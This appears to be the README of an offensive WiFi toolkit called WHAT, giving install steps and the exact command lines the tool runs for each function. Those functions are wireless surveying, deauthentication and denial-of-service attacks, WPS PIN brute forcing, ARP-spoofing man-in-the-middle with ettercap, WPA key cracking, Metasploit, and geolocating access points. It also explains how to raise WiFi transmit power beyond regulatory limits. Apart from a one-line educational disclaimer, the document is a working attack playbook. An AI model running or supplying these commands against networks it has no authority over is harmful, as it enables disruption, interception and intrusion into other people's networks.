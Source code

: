 Release notes for WiFi Hacking Attack Tool (WHAT) v1.0

This is only to be used for educational purposes only. It is illegal to use this program against wireless devices that you do not own.
Not all of these capabilities are available for WHAT

Pre-requisites:

a. Kali Linux 2 (32 or 64 bit iso or RPi ARM)
b. If using the WHAT-RPi version, please ensure the following repos are in the /etc/apt/sources.list file before installing:

deb http://http.kali.org/kali sana main non-free contrib

deb-src http://http.kali.org/kali sana main non-free contrib

deb http://security.kali.org/kali-security/ sana/updates main contrib non-free

deb-src http://security.kali.org/kali-security/ sana/updates main contrib non-free

This tool has only been run with Kali Linux 2. It is unknown what success you will have running on Ubuntu.

This is my first attempt at coding, please feel free to amend this program to run smoother as you see fit.

WHAT is designed to be an all in one and simplify WiFi exploitaton covering wardriving, WPA, WPS, MiTM, network scanning, exploitation and geolocation

There are three versions of WHAT (PRO, WHAT, Pi). All have different capabilities for different outputs. Download whichever version suits your needs best.

To start up:

1. you must install WHAT into the /root/ directory of Kali 2. Running the installer will download all the necessary packages you need to use WHAT 

cd root

git clone https://github.com/smoz1986/WHAT-PRO.git

cd WHAT-PRO

chmod +x SSLSTRIP.sh

./WHAT-installer.sh

2. Once downloaded go to the 'WHAT' icon and click to start WHAT

3. On 'PRO' version you will have five options (some of these are deprecated for WHAT and WHAT-Pi versions)

4. As you are using WHAT quite a few blank terminals will pop up. Just minimise these but dont close them as that will close the parent menu/program

ADMIN

1. On initial activation of WHAT click on Admin
2. Then click on 'Wipe & Create Files' and 'Clear Archive' to create the file structure within the root directory. As you use the various programs within WHAT they will write to these files. 
3. Once you have run some programs you may want to clear out these logs. If you do 'Wipe & Create Files' and 'Clear Archive' that will remove everything and install a new file structure. Move files to DB will put them in the /root/dropbox/ folder which will make it easier for someone to locate and extract if you are using FTP or SSH with a remote client
4. Archive files will archive all files you have created to a certain point. But as said if you run 'Clear Archive' that will clear out the archive folder

SURVEY (works with WiFi card as wlan0 only. you will be given prompts when each tab is clicked to suit your needs)

1. 'Start WiFi Survey' will automatically put the card into monitor and start airodump-ng on survey mode. The start up string is as follows:

airodump-ng wlan0mon --gpsd -w /root/airodumplog/$filevar -c $chanvar --wps --write-interval 1 --manufacturer --output-format csv,kismet,netxml,gps

2. 'WiFi Survey (PCAP)' again this will put the card into monitor mode, however, will be conducting PCAPs rather than just survey, which will be required for any deauths...more on that later. The string run for this is as follows:

airodump-ng wlan0mon --beacons --gpsd -w /root/airodumplog/pcap/$filevar --bssid $bssidvar -c $chanvar --output-format pcap,csv,kismet,netxml --write-interval 1 --wps --manufacturer

3. 'WPS survey' will just run a basic WPS survey of nearby WiFi Access points. Command line is as follows:

wash -i wlan0mon -o /root/wpslog/$filevar.log --ignore-fcs

4. NMAP will run a scan with the following parameters as follows:

nmap -sS -sV -sC -A -O -T$speedvar -p $portvar $ipranvar -v -o /root/nmaplog/$filevar.xml

EXPLOIT

1. 'Deauth AP-Client' will conduct a deauth between an AP and client. Wireshark will fire up too so you can confirm capture of the EAPOL packets. Command is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar -c $clientvar wlan0mon

2. 'Deauth AP / DOS' will conduct a deauth of a target AP only. Wireshark again will be activated. Command line used is as follows:

aireplay-ng -0 $deauthvar -a $bssidvar wlan0mon

3. 'WPS' will run a PIN brute force and Pixie attack on a WPS enabled AP. Command line used is as follows:

reaver -i wlan0mon -b $bssidvar -vv -S -P -c $chanvar -d $delvar -o /root/wpslog/wpscrack/$filevar.log

4. 'MITM-Ettercap' will intiate a MITM by Ettercap. The command line used is as follows:

ettercap -T -i $intervar -M arp:remote -d -w /root/etterlog/$filevar.pcap /$routervar//$targetvar/

5. 'AIRCRACK' will brute force the WPA key captured in any PCAPs acquired from a target AP. All four EAPOLs from an AP and client from a single authentication and a very good wordlist will be required for this to work. Command line is as follows:

aircrack-ng -b $bssidvar /root/airodumplog/pcap/$filevar.cap

6. 'Metasploit' will fire up good old msfconsole for you to employ further at your hearts' content

GEOLOCATION

1. 'GISKISMET (Track)' will plot out you entire track from your wardriving in a kml file for you to view on GoogleEarth. Command line used is as follows:

giskismet -x /root/airodumplog/$netxmlvar.kismet.netxml -q "select * from wireless" -o /root/giskismet/$filevar

2. 'GISKISMET (BSSID)' will plot out only specific AP's seen from your wardriving. Command line used is as follows:

giskismet -x /root/airodumplog/$nexmlvar.kismet.netxml -q "select * from wireless" --bssid "$bssidvar" -o /root/giskismet/wififilter/$filevar

3. 'Start iSniff' will start up iSniff GPS. More detail on Hubert3 iSniff-GPS can be found elsewhere on Github. Once iSniff is up and running open up iceweasel and put the following into the url bar: 127.0.0.1:8000/apple-wloc/(MAC Address of target AP)

4. 'Start loc-nogps' will start up loc-nogps. More detail on haxorthematrix loc-nogps is on Github. This program will incorporate iSniff and Wigle WiFi data in generating the location of AP's rather than your wardriving GPS track. The html file created will be within /root/WHAT-PRO/geo-tools/loc-nogps if you want to recall or delete it at a later date. A known bug is that if hidden SSIDs are processed in the kismet.netxml data from airodump they may come out as a repetitive string such of '&0#;' if this happens they will need to be removed/amended before loc-nogps will work. The command line used is as follows:

./loc-nogps.py -f /root/airodumplog/$locnvar -o $filevar.html -w 

COMMUNICATIONS

1. 'WiFi card power boost' will boost your WiFi card power. The default with WHAT is 2W. If you want to change the settings go to /root/WHAT-PRO/wifi-boost/wireless-regdb-2014.06.13/db.txt and amend all the values in brackets in the 'country 00:' and 'country BO:' sections to your desired Tx power. Make sure that your wifi card can accept your power setting, I accept no responsibility if you change the settings to something that will break your card. Once click, and your WiFi card's Tx power will be boosted

2. 'GPS' will start up your attached GPS. This only works with USB attached GPS.

3. 'OpenVPN' will start up OpenVPN if you have the credentials to connect to an active OpenVPN server

End, that's all.

